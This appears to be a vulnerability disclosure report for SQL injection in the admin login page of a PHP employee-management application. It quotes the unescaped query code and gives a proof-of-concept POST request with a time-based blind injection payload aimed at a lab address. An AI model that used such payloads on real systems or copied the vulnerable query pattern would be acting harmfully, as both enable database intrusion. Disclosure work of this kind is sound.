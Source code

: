 ### Vulnerability file address

`Admin/login.php` from line 8,The `$password` parameter is controllable,, and the `$password` is not protected from sql injection, line 10 `$sql = "SELECT * FROM users WHERE username='".$username."' and password = '".$password."'";` ,line 11 `$result = mysqli_query($conn,$sql);`,line 11 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');

if(isset($_POST['btnlogin']))
{

$username = $_POST['txtusername'];
$password = $_POST['txtpassword'];

$sql = "SELECT * FROM users WHERE username='".$username."' and password = '".$password."'";
$result = mysqli_query($conn,$sql);
$row  = mysqli_fetch_array($result);

 $_SESSION["admin-username"] = $row['username'];

 $count=mysqli_num_rows($result);
```

### POC

```http
POST /CMS/php/employee_akpoly/Admin/login.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/login.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtusername=1&txtpassword=1' AND (SELECT 1860 FROM (SELECT(SLEEP(5)))MFue)-- mLTN&btnlogin=
```

### Attack results pictures

![image-20250128224756816](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282247855.png)